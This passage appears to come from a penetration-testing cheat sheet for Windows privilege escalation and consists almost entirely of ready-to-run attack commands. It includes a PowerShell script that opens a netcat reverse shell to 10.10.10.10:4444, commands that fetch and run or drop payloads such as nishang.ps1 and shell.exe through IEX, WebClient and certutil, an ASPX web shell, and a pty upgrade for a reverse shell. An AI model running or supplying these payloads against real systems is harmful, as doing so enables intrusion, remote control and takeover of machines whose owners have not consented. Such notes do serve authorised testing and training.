 # Or remove the dependency:
sc config upnphost depend= ""

# runas not working and have credentials? 
# runas.ps1
$username = 'user'
$password = 'password'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process nc.exe -e cmd.exe 10.10.10.10 4444

powershell -ExecutionPolicy Bypass -File runas.ps1

powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/nishang.ps1')"

​powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.10.10/shell.exe', 'shell.exe')"

certutil -urlcache -f http://10.10.10.10/shell.exe shell.exe

# Simple aspx shell
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("")
o = cmd.StdOut.Readall()
Response.write(o)
%>

# Resources
# https://www.fuzzysecurity.com/tutorials/16.html
# https://guif.re/windowseop
# https://github.com/FuzzySecurity/PowerShell-Suite
# https://github.com/samratashok/nishang
# https://github.com/411Hall/JAWS
# https://github.com/PowerShellMafia/PowerSploit
# https://github.com/rasta-mouse/Sherlock
# https://github.com/ohpe/juicy-potato
Linux Privilege Escalation
# Enter while in reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
